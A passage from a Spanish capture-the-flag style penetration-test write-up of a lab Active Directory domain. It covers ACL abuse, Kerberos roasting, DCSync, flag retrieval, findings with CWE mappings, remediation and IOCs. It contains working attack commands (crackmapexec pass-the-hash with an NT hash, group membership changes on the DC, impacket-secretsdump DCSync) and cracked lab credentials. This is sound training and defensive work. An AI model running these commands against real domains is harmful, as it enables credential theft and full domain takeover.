### 6.3 `titan_api` → `Core-Infrastructure-Admins`

ACE relevantes en la DACL de `Core-Infrastructure-Admins`:

```text
ReadAndExecute + WriteOwner + WriteDACL + AllExtendedRights -> Domain Admins
ReadAndExecute + WriteOwner + WriteDACL + AllExtendedRights -> Enterprise Admins
Modify + WriteOwner + WriteDACL                            -> Administrators
Read                                                        -> Authenticated Users
FullControl                                                 -> Local System
```

`titan_api` **ya es miembro** de `Core-Infrastructure-Admins`. El grupo está anidado en
`BUILTIN\Administrators`, así que `titan_api` ya tiene privilegios administrativos efectivos. El
`GenericWrite` que permite añadir miembros no es una ACE directa sobre `titan_api`: nace de que
`Administrators` tiene `Modify`, `WriteOwner` y `WriteDACL` sobre el grupo, y `titan_api` está
dentro de `Administrators` por la anidación.

Por eso este paso **no era necesario para que `titan_api` fuera admin**. Se documenta y se valida
porque el fichero de bandera lo señala como parte de la cadena diseñada, y porque demuestra que el
grupo es modificable. La validación usó `estudiante` y se deshizo.

### 6.4 `Core-Infrastructure-Admins` → `Administrators` → dominio

`Core-Infrastructure-Admins` es miembro de `BUILTIN\Administrators`. La ACL del dominio concede a
`Administrators`:

```text
DS-Replication-Get-Changes
DS-Replication-Get-Changes-All
DS-Replication-Get-Changes-In-Filtered-Set
DS-Replication-Synchronize
DS-Replication-Manage-Topology
...
```

Eso habilita DCSync. `svc_sql` también es miembro de `Administrators`, por lo que el atajo y la
ruta intencionada convergen en el mismo control: la ACL del dominio sobre
`BUILTIN\Administrators`.

### 6.5 Validación controlada de la cadena

La validación se hizo con `estudiante`, una cuenta existente y no privilegiada. No se creó ningún
usuario ni se modificaron contraseñas. El hash de `d.morales` se usó solo después del DCSync.

```bash
# d.morales -> Data-Analytics-Ops
crackmapexec winrm 172.16.202.131 -u d.morales -H c5944a4b6fd2e7bd92b44fced7400ee0 \
  -x 'net group Data-Analytics-Ops /add estudiante /domain'
crackmapexec winrm 172.16.202.131 -u d.morales -H c5944a4b6fd2e7bd92b44fced7400ee0 \
  -x 'net group Data-Analytics-Ops /domain'
crackmapexec winrm 172.16.202.131 -u d.morales -H c5944a4b6fd2e7bd92b44fced7400ee0 \
  -x 'net group Data-Analytics-Ops /delete estudiante /domain'

# titan_api -> Core-Infrastructure-Admins
crackmapexec winrm 172.16.202.131 -u titan_api -p 'Password123' \
  -x 'net group Core-Infrastructure-Admins /add estudiante /domain'
crackmapexec winrm 172.16.202.131 -u titan_api -p 'Password123' \
  -x 'net group Core-Infrastructure-Admins /domain'
crackmapexec winrm 172.16.202.131 -u titan_api -p 'Password123' \
  -x 'net group Core-Infrastructure-Admins /delete estudiante /domain'
```

| Paso | Resultado |
|---|---|
| WinRM como `d.morales` con hash NT | `Pwn3d!` |
| Alta de `estudiante` en `Data-Analytics-Ops` | `The command completed successfully` |
| Verificación | `d.morales`, `estudiante`, `titan_api` |
| Baja de `estudiante` | Correcta |
| Verificación final | `d.morales`, `titan_api` |
| Alta de `estudiante` en `Core-Infrastructure-Admins` | Correcta |
| Verificación | `estudiante`, `s.velez`, `titan_api` |
| Baja y verificación final | `s.velez`, `titan_api` |
| Comprobación global | `estudiante` fuera de ambos grupos |

El grupo `Data-Analytics-Ops` quedó en `d.morales, titan_api`; `Core-Infrastructure-Admins` quedó
en `s.velez, titan_api`. La evidencia está en `loot/chain-dmorales.txt`,
`loot/chain-titanapi.txt` y `loot/cleanup-verification.txt`.

> **Limitación honesta.** No se reprodujo la cadena completa desde un usuario sin privilegios. Se
> validaron los saltos con las credenciales/hash disponibles después del DCSync. El hash de
> `d.morales` no demuestra que su contraseña en claro se conociera, ni que `d.morales` fuera la
> entrada inicial real. La entrada inicial fue el roasting Kerberos de cuentas con contraseña débil.





### 6.6 Ruta ejecutada frente a ruta intencionada

| Elemento | Ruta ejecutada | Ruta intencionada |
|---|---|---|
| Entrada | AS-REP + Kerberoasting | `d.morales` por WinRM |
| Credencial | `Password123` en seis cuentas | `d.morales` (solo hash NT) |
| Escalada | `svc_sql` en `BUILTIN\Administrators` | ACLs de grupos |
| Dominio | DCSync con `svc_sql` | DCSync vía `Administrators` |
| Bandera | Lectura como `titan_api` | Acceso administrativo al DC |
| Validación | DCSync real | Prueba posterior con hash NT |

No son contradictorias: la segunda es un **atajo** que el propio diseño permite por la reutilización
de contraseñas y por `svc_sql` en `Administrators`. La primera se validó después para comprobar que
las ACLs también funcionaban. El informe separa ambas para no atribuir la entrada inicial a una
credencial que no se tenía.



---

## 7. Bandera: lectura directa, sin validador oficial

La OVA **no incluye un validador oficial**. No se invocó ningún `startlab.sh`, endpoint ni
comprobador externo; tampoco se inventó uno. La bandera se leyó del fichero máster del DC:

```text
C:\Users\Administrator\Desktop\FLAG_TITANCORP_DOMAIN_ADMIN.txt
```

```bash
crackmapexec winrm 172.16.202.131 -u titan_api -p 'Password123' \
  -x 'type C:\Users\Administrator\Desktop\FLAG_TITANCORP_DOMAIN_ADMIN.txt'
```

```text
======================================================================
 CPENTv2 / LPT MASTER - EC-COUNCIL EXAM SIMULATION
 LAB MASTER: OPERACION TITANCORP COMPLETA (PWN3D!)
======================================================================
 FLAG: CPENT{t1t4n_c0rp_mult1h0p_bl00dh0und_m4st3r_2026}
======================================================================
 Cadena Ofensiva Validada:
 1. Entrypoint WinRM: d.morales (Helpdesk L1)
 2. WriteDacl Abuse sobre grupo Data-Analytics-Ops
 3. GenericAll Abuse / Kerberoasting sobre titan_api
 4. GenericWrite Abuse sobre Core-Infrastructure-Admins
 5. Compromiso Total del Domain Controller (Administrators)
======================================================================
```

La lectura se hizo como `titan_api`, que ya era administrativo por su pertenencia a
`Core-Infrastructure-Admins` → `Administrators`. El DCSync con `svc_sql` fue el compromiso del
dominio; la lectura de la bandera demuestra el acceso al fichero del Administrator.

| Afirmación | ¿Evidencia? |
|---|---|
| El fichero existe en la ruta indicada | Sí: lectura real como `titan_api` |
| La bandera es `CPENT{...}` | Sí: contenido del fichero y `loot/flag.txt` |
| La cadena de cinco pasos es la intencionada | Sí, como **diseño** documentado en el propio fichero |
| La cadena se ejecutó desde `d.morales` | **No**: la entrada real fue roasting |
| `d.morales` tenía contraseña en claro conocida | **No**: solo el hash NT |
| Un validador oficial aceptó la bandera | **No**: la OVA no incluye validador |

> El texto “Cadena Ofensiva Validada” forma parte del fichero del laboratorio y describe el
> escenario. **No es una validación externa.** El prefijo `CPENT` y el banner de “EC-COUNCIL EXAM
> SIMULATION” son parte de la narrativa de la OVA, no una prueba de que se haya pasado un examen.



---

## 8. Cadena completa de ataque

### 8.1 Ruta ejecutada

| Paso | Acción | Resultado |
|---|---|---|
| 1 | `nmap -p-` y enumeración AD | 21 puertos abiertos, todos AD |
| 2 | DNS/LDAP/SMB/BloodHound | 28 usuarios, 56 grupos, 1 DC |
| 3 | AS-REP roasting | 3 hashes: `auditor_externo`, `c.ramirez`, `svc_backup` |
| 4 | `hashcat -m 18200` | `Password123` |
| 5 | Kerberoasting como `svc_sql` | 3 TGS: `svc_sql`, `svc_oracle`, `titan_api` |
| 6 | `hashcat -m 13100` | `Password123` |
| 7 | WinRM como `svc_sql` | `Pwn3d!`; miembro de `Administrators` |
| 8 | `secretsdump -just-dc` | 29 entradas; `krbtgt`, `Administrator`, 20 hashes compartidos |
| 9 | WinRM como `titan_api` | Lectura de la bandera |

```text
sin credenciales
  │
  ├─ AS-REP: auditor_externo, c.ramirez, svc_backup
  └─ Kerberoast: svc_sql, svc_oracle, titan_api
        │
        ▼
   Password123 (6 cuentas)
        │
        ▼
   svc_sql  (BUILTIN\Administrators)
        │  WinRM 5985
        ▼
   DCSync  →  krbtgt + Administrator + 20 hashes
        │
        ▼
   titan_api (Password123) → WinRM → FLAG
```

### 8.2 Ruta intencionada

| Paso | Acción | Resultado |
|---|---|---|
| 1 | WinRM como `d.morales` | Entrada Helpdesk L1 |
| 2 | `WriteDACL` / `FullControl` sobre `Data-Analytics-Ops` | Modificar la membresía del grupo |
| 3 | `titan_api` (Kerberoast / `GenericAll`) | Credencial de servicio |
| 4 | `GenericWrite` sobre `Core-Infrastructure-Admins` | Añadir miembros al grupo |
| 5 | `Core-Infrastructure-Admins` anidado en `Administrators` | Derechos administrativos |
| 6 | `GetChanges` + `GetChangesAll` | DCSync / DC |
| 7 | Acceso al escritorio del Administrator | Bandera |

```text
d.morales (Helpdesk L1)
  │  WinRM
  ▼
Data-Analytics-Ops
  │  WriteDACL / FullControl
  ▼
titan_api
  │  Kerberoast / GenericAll
  ▼
Core-Infrastructure-Admins
  │  GenericWrite
  ▼
Administrators
  │  GetChanges + GetChangesAll
  ▼
DCSync  →  DC  →  FLAG
```

La ruta intencionada se validó con el hash NT de `d.morales` y `estudiante`, no con la contraseña
en claro. La ruta ejecutada usó el atajo de `svc_sql`. Ambas terminan en el mismo DC y en la misma
bandera.

---

## 9. Vulnerabilidades encontradas

| # | Severidad | Vulnerabilidad | Ubicación | CWE / Control |
|---|---|---|---|---|
| 1 | **Crítica** | Contraseña débil y compartida (`Password123`) en seis cuentas roastables (tres AS-REP y tres Kerberoast); 20 cuentas comparten el mismo hash NT | Cuentas de servicio y de soporte | CWE-521 / CWE-798 |
| 2 | **Crítica** | `svc_sql` es miembro de `BUILTIN\Administrators` | Grupo `Administrators` del DC | CWE-269 |
| 3 | **Crítica** | Derechos de replicación del dominio concedidos a `Administrators`; DCSync posible | ACL del dominio | CWE-269 |
| 4 | **Alta** | `d.morales` tiene `FullControl` directo sobre `Data-Analytics-Ops`; `IT-Helpdesk` tiene `WriteDACL` | DACL de `Data-Analytics-Ops` | CWE-269 |
| 5 | **Alta** | `titan_api` en `Core-Infrastructure-Admins`; `GenericWrite` efectivo sobre el grupo; grupo anidado en `Administrators` | DACL de `Core-Infrastructure-Admins` | CWE-269 |
| 6 | **Alta** | Tres cuentas con `UF_DONT_REQUIRE_PREAUTH` (AS-REP roasting) | `auditor_externo`, `c.ramirez`, `svc_backup` | CWE-287 / CWE-521 |
| 7 | **Alta** | Tres cuentas de servicio con SPN y contraseña débil (Kerberoasting) | `svc_sql`, `svc_oracle`, `titan_api` | CWE-521 / CWE-798 |
| 8 | **Media** | Política de contraseñas débil: mínimo 7, complejidad, bloqueo nunca, 42 días | GPO del dominio | CWE-521 / CWE-307 |
| 9 | **Media** | WinRM expuesto para cuentas de servicio y administrativas, sin segmentación | `5985/tcp` | CWE-284 |
| 10 | **Baja** | Divulgación de información de dominio (rootDSE, NetBIOS, SPN, nombres internos) | DNS/LDAP/SMB/Kerberos | CWE-200 |

**Controles que sí funcionaron:**

- SMB signing **enabled and required** y SMBv1 deshabilitado.
- El subárbol LDAP no es legible de forma anónima (`Operations error`).
- Los hashes de `a.salazar` y `c.duque` (Domain Admins) son únicos y no se crackearon.
- No hay web, SSH ni RDP expuestos.
- No se encontraron cuentas de equipo adicionales ni otros hosts.

---

## 10. Recomendaciones

1. **Rotar todas las credenciales comprometidas.** `Password123` debe desaparecer de todas las
   cuentas. Usar contraseñas únicas, largas y aleatorias; comprobar reutilización con un gestor de
   secretos y un auditor de hashes.
2. **Sacar las cuentas de servicio de los grupos privilegiados.** `svc_sql` no debe estar en
   `BUILTIN\Administrators`. Migrar a **gMSA** o cuentas de servicio gestionadas, con el mínimo
   privilegio y sin inicio de sesión interactivo.
3. **Aplicar un modelo de niveles.** Separar Tier 0 (DC, `krbtgt`, Domain Admins) del resto.
   Ninguna cuenta de servicio debe compartir host, grupo o credencial con la administración del
   dominio.
4. **Eliminar la superficie de roasting.** Exigir preautenticación Kerberos, usar contraseñas de
   alta entropía para cuentas con SPN, preferir AES y deshabilitar RC4 si la compatibilidad lo
   permite. Revisar los SPN que ya no se usan.
5. **Corregir las ACLs.** Quitar el `FullControl` directo de `d.morales` sobre
   `Data-Analytics-Ops` y el `WriteDACL` de `IT-Helpdesk` sobre ese grupo. Auditar con BloodHound
   las rutas hacia `Administrators`, `Domain Admins` y `krbtgt`, y proteger los grupos
   administrativos con `AdminSDHolder`.
6. **Restringir la replicación.** Solo los DC y las cuentas estrictamente necesarias deben tener
   `GetChanges`/`GetChangesAll`. Monitorizar el evento **4662** y alertar de DCSync desde cuentas
   que no sean DC.
7. **Limitar WinRM.** Restringir `5985` a hosts de administración (PAW/jump hosts), exigir
   autenticación fuerte y prohibir WinRM para cuentas de servicio. Segmentar la red de management.
8. **Endurecer la política de contraseñas.** Aumentar la longitud mínima (14–25+), activar bloqueo
   por intentos, usar listas de contraseñas prohibidas, LAPS para cuentas locales y MFA para
   cuentas administrativas. La complejidad sola no basta.
9. **Deshabilitar cuentas legacy y revisar SPNs.** `auditor_externo`, `svc_backup` y `c.ramirez`
   son cuentas heredadas con preautenticación deshabilitada; deben revisarse, rotarse o eliminarse.
10. **Monitorizar los patrones de ataque.** Alertar de AS-REP roasting (4768), Kerberoasting
    (4769 con RC4), fuerza bruta (4625/4771), cambios de grupo (4728/4732/4756), DCSync (4662) y
    conexiones WinRM anómalas. Correlacionar con los SPN y las cuentas de servicio.
11. **Plan de respuesta a incidentes.** Si el dominio estuvo expuesto, rotar `krbtgt` dos veces,
    resetear `Administrator`, invalidar tickets, revisar persistencia y considerar la reconstrucción
    del DC. En este laboratorio no se ejecutó ninguna de estas acciones destructivas.
12. **Documentar y validar.** Mantener un inventario de cuentas de servicio, grupos anidados y
    ACLs; repetir la auditoría con BloodHound tras cada cambio. No usar credenciales de producción
    en laboratorios.

---

## 11. Trazabilidad: de dónde sale cada afirmación

| # | Afirmación | Origen | Artefacto |
|---|---|---|---|
| 1 | Objetivo `172.16.202.131`, DC `WIN-CFIU5AU7L2D`, Windows Server 2019 | Objetivo | `recon/nmap-services.txt`, `loot/systeminfo.txt` |
| 2 | 21 puertos abiertos; 22/80/443/3389 filtrados | Objetivo | `recon/nmap-full.txt`, `recon/nmap-services.txt` |
| 3 | SMB signing required; SMBv1 deshabilitado | Objetivo | `recon/nmap-smb.txt`, `recon/nmap-services.txt` |
| 4 | DNS y SRV apuntan al único DC | Objetivo | `recon/dns.txt` |
| 5 | `rootDSE` anónimo; subárbol LDAP con `Operations error` | Objetivo | `recon/ldap/anonymous.txt` |
| 6 | 28 usuarios, 56 grupos, 1 equipo, SID del dominio | Objetivo | `recon/ldap/summary.txt`, `recon/ldap/domaindump/*.json`, `recon/bloodhound/*` |
| 7 | Miembros de `Administrators`, `Core`, `Data-Analytics-Ops`, `IT-Helpdesk` | Objetivo | `loot/groups.txt`, `recon/ldap/privileged-groups.txt` |
| 8 | Política: mínimo 7, bloqueo Never, 42 días, historial 24 | Objetivo | `loot/domain-policy.txt`, `recon/sysvol/.../GptTmpl.inf` |
| 9 | AS-REP roastable: `auditor_externo`, `c.ramirez`, `svc_backup` | Objetivo | `loot/asrep.txt`, `recon/kerberos/asrep.txt` |
| 10 | Kerberoastable: `svc_sql`, `svc_oracle`, `titan_api` | Objetivo | `loot/kerberoast.txt`, `recon/kerberos/kerberoast.txt` |
| 11 | Seis cuentas con `Password123`; `m.torres` con `Summer2026!` | Objetivo | `loot/cracked-passwords.txt`, `loot/cracked.txt`, `loot/hashcat.pot` |
| 12 | `svc_sql` miembro de `BUILTIN\Administrators` | Objetivo | `loot/groups.txt`, `shots/captures/05_svc_sql_winrm.txt` |
| 13 | `svc_sql` con WinRM `Pwn3d!` | Objetivo | `loot/winrm-svc_sql.txt`, `docs/img/05-winrm.png` |
| 14 | DCSync: 29 entradas, 20 hashes compartidos, `krbtgt`/`Administrator` | Objetivo | `loot/dcsync-full.txt`, `loot/dcsync-ntlm.txt`, `loot/dcsync-command.txt` |
| 15 | Hash NT de `d.morales` `c5944a4b...`; sin contraseña en claro | Objetivo | `loot/dcsync-ntlm.txt` |
| 16 | `d.morales` con `FullControl` y `IT-Helpdesk` con `WriteDACL` | Objetivo | `loot/acl-data-analytics-ops.txt`, `loot/acl-chain.txt` |
| 17 | `titan_api` en `Core`; `GenericWrite` efectivo vía `Administrators` | Objetivo | `loot/acl-core-infrastructure-admins.txt`, `loot/acl-chain.txt` |
| 18 | `Administrators` con `GetChanges`/`GetChangesAll` | Objetivo | `loot/acl-domain.txt` |
| 19 | `d.morales` puede añadir/quitar `estudiante` de `Data-Analytics-Ops` | Objetivo | `loot/chain-dmorales.txt`, `docs/img/08-writedacl.png` |
| 20 | `titan_api` puede añadir/quitar `estudiante` de `Core` | Objetivo | `loot/chain-titanapi.txt`, `docs/img/09-genericwrite.png` |
| 21 | Grupos limpios tras la validación | Objetivo | `loot/cleanup-verification.txt`, `loot/groups.txt`, `docs/img/12-limpieza.png` |
| 22 | Bandera en `C:\Users\Administrator\Desktop\FLAG_TITANCORP_DOMAIN_ADMIN.txt` | Objetivo | `loot/flag.txt`, `loot/flag-full.txt`, `loot/flag-read-titanapi.txt`, `loot/flag-path-verification.txt` |
| 23 | No hay validador oficial ni se usó uno | Material de la OVA / análisis | `notes/bitacora.md` §7, `README.md` §7 |
| 24 | La cadena de cinco pasos es el diseño, no la entrada real | Fichero de bandera / análisis | `loot/flag-full.txt`, `notes/bitacora.md` §8.1 |

---

## 12. Indicadores de compromiso (IOC)

| Indicador | Valor |
|---|---|
| IP atacante | `172.16.202.129` (Kali, misma red /24) |
| IP objetivo | `172.16.202.131` |
| Hostname | `WIN-CFIU5AU7L2D` |
| Dominio / SID | `corp.local` / `S-1-5-21-2314756761-1692085105-450277737` |
| Cuentas AS-REP comprometidas | `auditor_externo`, `c.ramirez`, `svc_backup` |
| Cuentas Kerberoast comprometidas | `svc_sql`, `svc_oracle`, `titan_api` |
| Contraseña compartida | `Password123` |
| Hash NT compartido | `58a478135a93ac3bf058a5ea0e8fdb71` (20 cuentas) |
| Hash NT de `d.morales` | `c5944a4b6fd2e7bd92b44fced7400ee0` |
| Contraseña de `m.torres` | `Summer2026!` |
| Patrón AS-REP | `GetNPUsers` contra cuentas con `UF_DONT_REQUIRE_PREAUTH` |
| Patrón Kerberoast | `GetUserSPNs` + `hashcat -m 13100` |
| Comando de DCSync | `impacket-secretsdump 'corp.local/svc_sql:Password123@172.16.202.131' -just-dc` |
| Acceso remoto | WinRM `5985/tcp` como `svc_sql` y `titan_api` |
| Grupos modificados temporalmente | `Data-Analytics-Ops`, `Core-Infrastructure-Admins` |
| Cuenta de prueba | `estudiante` (alta y baja; retirada al final) |
| Persistencia | **Ninguna**: sin cuentas, equipos, tareas, servicios, claves ni golden ticket |
| Fichero leído | `C:\Users\Administrator\Desktop\FLAG_TITANCORP_DOMAIN_ADMIN.txt` |
| Bandera | `CPENT{t1t4n_c0rp_mult1h0p_bl00dh0und_m4st3r_2026}` |

---

## 13. Herramientas utilizadas

| Herramienta | Uso |
|---|---|
| `nmap` 7.991 | Descubrimiento de puertos, versiones y scripts SMB |
| `dig` | DNS y SRV del dominio |
| `ldapsearch` | `rootDSE` y comprobación del subárbol anónimo |
| `smbclient` | Listado de shares anónimo y autenticado |
| `domaindump` | Inventario de usuarios, grupos, equipos y política |
| `bloodhound-python` | Recolección de AD y análisis de ACLs |
| `impacket` 0.13.1 | `GetNPUsers`, `GetUserSPNs`, `secretsdump`, `dacledit` |
| `hashcat` | AS-REP (18200), Kerberoast (13100) y NTDS (1000) |
| `crackmapexec` | SMB/WinRM, ejecución remota y validación de grupos |
| `net group` (vía WinRM) | Alta/baja controlada de `estudiante` |
| `bash` | Scripts de `exploits/` |
| `chromium` + Pillow | Generación de las capturas PNG del writeup |

---

## 14. Estructura del repositorio

```text
TITANCORP/
├── README.md                         Este documento
├── docs/
│   └── img/                          Capturas del writeup
│       ├── 01-recon.png              Puertos y servicios
│       ├── 02-ad-enum.png            Dominio, identidades y política
│       ├── 03-roasting.png           AS-REP y Kerberoasting
│       ├── 04-cracking.png           Cracking de hashes
│       ├── 05-winrm.png              svc_sql y acceso administrativo
│       ├── 06-dcsync.png             DCSync
│       ├── 07-acl-chain.png          Cadena de ACLs
│       ├── 08-writedacl.png          d.morales y Data-Analytics-Ops
│       ├── 09-genericwrite.png       titan_api y Core
│       ├── 10-flag.png               Bandera desde el fichero máster
│       ├── 11-cadena.png             Ruta real y ruta intencionada
│       └── 12-limpieza.png           Limpieza y verificación
├── exploits/
│   ├── README.md                     Uso y notas de seguridad
│   ├── recon_ad.sh                   Reconocimiento AD no autenticado
│   ├── asrep_kerberoast.sh           AS-REP y Kerberoasting
│   ├── crack_hashes.sh               Cracking AS-REP/Kerberoast/NTDS
│   ├── dcsync.sh                     DCSync con password o hash NT
│   ├── collect_bloodhound.sh         Recolección BloodHound
│   ├── acl_chain.sh                  Dry-run / validación de la cadena de ACLs
│   └── read_flag.sh                  Lectura del fichero máster
├── loot/                             Evidencia del compromiso
│   ├── acl-chain.txt                 Resumen de la cadena de ACLs
│   ├── acl-core-infrastructure-admins.txt
│   ├── acl-data-analytics-ops.txt
│   ├── acl-domain.txt
│   ├── asrep.txt                     Hashes AS-REP
│   ├── chain-dmorales.txt            Validación d.morales
│   ├── chain-titanapi.txt            Validación titan_api
│   ├── cleanup-verification.txt      Comprobación final de grupos
│   ├── cracked-passwords.txt         Credenciales recuperadas
│   ├── cracked.txt                   Hashes crackeados
│   ├── dcsync-command.txt            Comando DCSync
│   ├── dcsync-full.txt               Volcado completo
│   ├── dcsync-ntlm.txt               Hashes NT
│   ├── domain-policy.txt             Política de contraseñas
│   ├── flag.txt                      Bandera
│   ├── flag-full.txt                 Salida completa de la lectura
│   ├── flag-path-verification.txt    Verificación de ruta
│   ├── flag-read-titanapi.txt        Lectura como titan_api
│   ├── groups.txt                    Grupos y miembros tras limpieza
│   ├── hashcat.pot                   Potfile de hashcat
│   ├── kerberoast.txt                Hashes TGS
│   ├── shares.txt                    Shares vistos por titan_api
│   ├── smb-mtorres.txt               Acceso SMB como m.torres
│   ├── smb-svc_sql.txt               Acceso SMB como svc_sql
│   ├── systeminfo.txt                Información del DC
│   ├── whoami-titan_api.txt          Grupos y privilegios de titan_api
│   ├── winrm-dmorales.txt            WinRM con hash de d.morales
│   ├── winrm-svc_sql.txt             WinRM como svc_sql
│   └── winrm-titan_api.txt           WinRM como titan_api
├── notes/
│   └── bitacora.md                   Cronología, decisiones y limitaciones
├── recon/
│   ├── bloodhound/                   Zip y JSON de BloodHound
│   │   ├── collection.txt
│   │   ├── titancorp_20261026121900_bloodhound.zip
│   │   └── titancorp_20261026121900_*.json
│   ├── dns.txt                       DNS y SRV
│   ├── kerberos/
│   │   ├── asrep.txt
│   │   ├── cracking.txt
│   │   └── kerberoast.txt
│   ├── ldap/
│   │   ├── anonymous.txt             rootDSE y subárbol anónimo
│   │   ├── computers.txt
│   │   ├── domaindump/               Usuarios, grupos, equipos, política
│   │   ├── groups.txt
│   │   ├── privileged-groups.txt
│   │   ├── roast-targets.txt
│   │   ├── summary.txt
│   │   └── users.txt
│   ├── nmap-full.txt                 TCP completo
│   ├── nmap-services.txt             Versiones y fingerprint
│   ├── nmap-smb.txt                  SMB signing/SMBv1
│   ├── smb-shares.txt                Shares anónimos/autenticados
│   ├── sysvol/                       GPO y scripts
│   └── sysvol-files.txt              Inventario de SYSVOL
└── shots/
    ├── captures/                     Salidas crudas 01–10 y 12
```

> `shots/captures/11` no existe: la imagen `11-cadena.png` se genera con el diagrama de
> `make_images.py`, no a partir de una captura de terminal.

---

## 15. Conclusiones

TITANCORP se rompe por **dos fallos que se refuerzan**: la reutilización de `Password123` en
cuentas de servicio y la presencia de una de esas cuentas en `BUILTIN\Administrators`. El
AS-REP/Kerberoasting no es un hallazgo aislado: es la llave que convierte una cuenta de servicio en
un DCSync. La cadena de ACLs es real, pero en esta ejecución fue un atajo, no la entrada.

La lección más importante es que **la segregación de privilegios no se puede confiar a la
narrativa de un fichero de bandera**. El diseño decía `d.morales → Data-Analytics-Ops →
titan_api → Core → Administrators`; la realidad permitió `svc_sql → Administrators → DCSync`. Un
laboratorio “difícil” no lo es por la longitud de la cadena, sino por la cantidad de caminos que
deja abiertos. Aquí había dos, y el más corto no requería ninguna ACL.

También queda una lección de método: **documentar la procedencia de cada credencial**. El hash de
